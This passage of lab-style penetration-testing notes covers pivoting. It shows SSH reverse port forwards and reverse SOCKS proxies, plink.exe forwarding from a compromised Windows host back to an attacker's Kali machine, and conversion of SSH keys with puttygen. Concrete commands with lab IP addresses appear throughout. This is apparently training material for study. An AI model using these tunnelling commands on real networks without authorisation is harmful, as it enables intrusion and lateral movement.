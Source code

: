  With the key transferred, we can then connect back with a reverse port forward using the following command:

 command syntax : ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

 command Example : ssh -R 2222:172.16.0.100:22 kali@172.16.0.200 -i id_rsa

 ## This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!


 ## Note: In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the -D switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:
 command : ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN

 This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

 plink.exe:
 ----------

 
 command for sending binary and use it to gain reverse connection

 command: cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N

 ## cmd.exe /c echo y  at the start is for non-interactive shells (like most reverse shells -- with Windows shells being difficult to stabilise)

 Example:
---------
  To use our example from before, if we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80 back to port 8000 our own attacking machine (172.16.0.20), we could use this
 command: cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N

 ## Note that any keys generated by ssh-keygen will not work properly here. You will need to convert them using the puttygen tool, which can be installed on Kali using 
 command: sudo apt install putty-tools.
 After downloading the tool, conversion can be done with:
 command: puttygen KEYFILE -o OUTPUT_KEY.ppk
 
 Substituting in a valid file for the keyfile, and adding in the output file.

 The resulting .ppk file can then be transferred to the Windows target and used in exactly the same way as with the Reverse port forwarding taught in the previous task (despite the private key being converted, it will still work perfectly with the same public key we added to the authorized_keys file before).
